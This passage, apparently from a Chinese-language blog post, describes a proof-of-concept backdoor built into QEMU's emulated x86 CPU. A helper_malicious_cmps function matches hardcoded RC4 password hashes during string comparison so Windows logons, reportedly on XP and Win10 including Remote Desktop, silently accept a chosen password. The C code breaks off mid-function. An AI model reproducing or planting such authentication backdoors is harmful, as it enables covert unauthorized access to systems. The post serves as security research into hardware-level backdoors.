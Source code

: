 不用helper函数也行，在这里多加几个tcg_gen_mov_tl来判断值就行。
有helper主要是方便printf。

效果图，xp系统没改动。
![xp_screenshot](https://github.com/whensungoesdown/whensungoesdown.github.io/raw/main/_posts/2022-03-28.png)


------------------------
这个是在windows系统上验证。
测cpu的时候就没法搞x86了，只能是sparc或者risc-v，而且也装不上windows，只能实验unix/linux系统。

刚才又试了下在创建新用户设置密码的思时候用了同样的密码123，结果还行，没出现冲突。有意思的时，
当这个用户登陆的时候，这个16字节的rc4 hash会被cmps两边，现象就是上面的图上，输出的部分多了一
边。也没去看这算什么情况，不影响登陆。

------------------------
后来又试了下Win10 64位，本以为会有些变化，结果还是rc4，代码几乎不用变，只要在x86_64上编译就可以了。

也就是说，只要是装Windows操作系统（没有验证全部，只试了xp 32bit，win10 64bit），这个后门就会隐蔽的一直发挥作用。
远程桌面也是通过这套验证逻辑，也可以用。域控制器还没试过。



`````c
#ifdef TARGET_X86_64
target_ulong helper_malicious_cmps(CPUX86State *env, uint64_t rdi)
{
    target_ulong val = 0;

    //printf("helper_malicious_cmps: rdi 0x%llx\n", (long long unsigned int)rdi);

    if (rdi == 0xa79016d797e6bd3d || rdi == 0x78362812eb4b2069)
    {
        printf("helper_malicious_cmps: edi 0x%llx\n", (long long unsigned int)rdi);
        val = 1;
    }
    
    return val;
}
#else
target_ulong helper_malicious_cmps(CPUX86State *env, uint32_t edi)
{
    target_ulong val = 0;

`````
